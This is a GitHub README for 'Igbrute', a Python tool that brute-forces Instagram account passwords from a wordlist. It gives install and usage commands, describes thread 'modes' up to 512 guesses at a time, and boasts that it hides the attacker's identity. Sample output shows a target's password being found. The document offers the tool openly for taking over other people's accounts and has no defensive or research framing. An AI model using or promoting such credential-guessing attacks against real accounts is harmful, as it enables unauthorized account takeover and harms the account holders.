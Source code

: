 # Igbrute
### Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Vyshu101)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Support me


### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py TOXIC.007 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: TOXIC.007
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: TOXIC.007
[-] Password: WEREFG
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: TOXIC.007
[+] Password: WEREFG
```
